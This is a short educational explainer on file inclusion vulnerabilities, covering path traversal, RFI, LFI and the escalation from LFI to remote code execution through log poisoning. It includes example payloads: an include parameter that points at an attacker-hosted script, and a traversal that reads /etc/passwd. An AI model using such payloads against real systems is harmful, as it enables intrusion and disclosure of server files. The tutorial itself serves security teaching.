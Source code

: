 # Basics of File Inclusion

A traversal string, commonly seen as `../`, is used in path traversal attacks to navigate through the directory structure of a file system. It's essentially a way to move up one directory level. Traversal strings are used to access files outside the intended directory.

Relative pathing refers to locating files based on the current directory. For example, `include('./folder/file.php')` implies that `file.php` is located inside a folder named `folder`, which is in the same directory as the executing script.

Absolute pathing involves specifying the complete path starting from the root directory. For example, `/var/www/html/folder/file.php` is an absolute path.

## Remote File Inclusion

Remote File Inclusion (RFI) is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.

## Local File Inclusion

Local File Inclusion (LFI) typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like `include.php?page=../../../../etc/passwd`.

While LFI primarily leads to unauthorized file access, it can escalate to Remote Code Execution (RCE). This can occur if the attacker can upload or inject executable code into a file that is later included or executed by the server. Techniques such as log poisoning, which means injecting code into log files and then including those log files, are examples of how LFI can lead to RCE.

## RFI vs LFI Exploitation Process

This diagram above differentiates the process of exploiting RFI and LFI vulnerabilities. In RFI, the focus is on including and executing a remote file, whereas, in LFI, the attacker aims to access local files and potentially leverage this access to execute code on the server.
